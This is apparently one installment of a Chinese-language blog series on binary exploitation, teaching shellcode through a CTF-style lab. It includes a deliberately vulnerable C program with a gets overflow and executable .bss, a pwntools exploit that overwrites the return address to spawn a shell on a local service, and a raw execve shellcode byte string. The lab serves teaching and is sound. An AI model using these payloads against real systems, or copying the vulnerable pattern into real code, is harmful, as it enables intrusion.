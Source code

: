 ```yaml
---
title: "Day11－Shellcode"
date: 2024-09-11
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## 前言

從今天開始，內容會變得更加困難。之前的題目可能有留一個後門函式，讓你可以直接開啟 shell，或是使用 `system` 函式來方便後續的操作。然而，現實中基本不會有這種情況，所以我們需要學習更多漏洞利用的方法，才能更符合實際的需求。

## Shellcode

根據之前提到的編譯過程，經過簡化後，最終會變成下圖所示的形式：

![image](/images/iron2024/day11_image1.png)

簡單來說，最後真正執行的部分是機器碼，而這正是本章節要教授的內容：Shellcode。之所以稱為 Shellcode，是因為我們透過編寫 Assembly 程式碼，將參數寫入指定的位置，並最終呼叫 `syscall`，來達成我們的目標，例如開啟 shell 或讀取特定檔案。


## Syscall

`syscall` 即為 System Call，是用來與 Kernel 進行溝通的呼叫。在 CTF 中，常見的有以下兩種：

- `execve("/bin/sh", NULL, NULL)`
- `open`、`read`、`write`

這些可以分別用來啟動 shell 或進行任意的檔案讀寫。這個[網站](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)可以幫助查詢呼叫各種 `syscall` 時應該將各個暫存器設置為什麼值，這與前面提到的 Calling Convention 是相關的。

## 如何編寫 Shellcode？

編寫 Shellcode 有幾種方法，以下是幾個選項：

1. 自己寫 Assembly，並透過 `pwntools` 進行轉換。
2. 從 [shellcode database](https://shell-storm.org/shellcode/index.html) 中找到需要的 Shellcode。
3. 使用 `pwntools` 中的 [shellcraft](https://docs.pwntools.com/en/stable/shellcraft/amd64.html)，記得指定 `context.arch`。

## Lab

查看以下程式原始碼：

```c
#include<stdio.h>
#include <unistd.h>
#include <sys/mman.h>
char shellcode[0x100];
int main(){
    setvbuf(stdout, 0, _IONBF, 0);
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stderr, 0, _IONBF, 0);
    unsigned long addr = (unsigned long)&shellcode & ~0xfff;
    mprotect((void *)addr, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE);
    printf("Give me shellcode: ");
    read(0, shellcode, 0x100);
    printf("Overflow me: ");
    char buffer[0x10];
    gets(buffer);
    printf("Bye!\n");
    return 0;
}
```

使用以下指令進行編譯：

```bash
gcc src/orw.c -o ./orw/share/orw -fno-stack-protector -no-pie
```

你可以自行嘗試這個題目，或繼續閱讀以下解題步驟。

## Writeup

首先可以看到程式使用了 `gets` 函式，存在 Buffer Overflow 的風險。根據編譯參數可以確認程式關閉了 PIE 與 Canary，此外程式還使用了 `mprotect` 來修改記憶體的權限，將 `shellcode` 變數的記憶體區域設為可讀、可寫、可執行。這意味著，即使程式開啟了 NX 保護，我們仍然可以寫入並執行 Shellcode。這是因為新版本的 OS 在 `.bss` 段僅有讀取權限，因此為了這個 Lab，我們才修改了權限。

基於上述觀察，我們可以整理出兩個重點：

1. 我們可以將 Shellcode 寫入變數中。
2. 由於沒有開啟 PIE，可以透過 `gets` 的 Buffer Overflow 將 Return Address 覆寫為 Shellcode 的位址。

為了達成這些目標我們需要確定幾件事情

1. 如何編寫 Shellcode？
2. 如何找到 `shellcode` 變數的位址？

前面提到我們可以使用 `pwntools` 的 `shellcraft` 產生 Shellcode，但需要注意的是，`shellcraft` 產生的 Shellcode 有時候可能會過長，這時就可能需要使用 `shellcode database` 或自行撰寫短一點的 Shellcode，來符合題目對字元數量的限制。例如，以下的 AMD64 開啟 shell 的 Shellcode 長度為 48 字節，已經足夠應付這道題目。

![image](/images/iron2024/day11_image2.png)

接下來，我們需要確定如何找到 `shellcode` 變數的位址。你可以使用 `objdump` 來查看，但這裡我使用另一個工具 `nm`，它可以顯示檔案的符號資訊。透過執行 `nm ret2sc | grep "shellcode"`，可以輕鬆得知 `shellcode` 的位址為 `0x404080`。

![image](/images/iron2024/day11_image3.png)

到此為止，我們已經掌握了所有獲取 Shell 的關鍵資訊，接下來可以開始撰寫 Exploit。

完整 exploit：
以下是完整的 Exploit 程式碼，我也附上另一個 Shellcode，供讀者測試。

```python
from pwn import *
context.arch = 'amd64'
#r = process('../ret2sc/share/ret2sc')
r = remote('127.0.0.1', 10003)
shellcode = asm(shellcraft.sh())
#shellcode = b'\31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
r.sendlineafter(b': ', shellcode)
payload = b'A' * (0x20 + 8) + p64(0x404080)
r.sendlineafter(b': ', payload)
r.recvuntil(b'!\n')
r.interactive()
```

solved！！

![image](/images/iron2024/day11_image4.png)
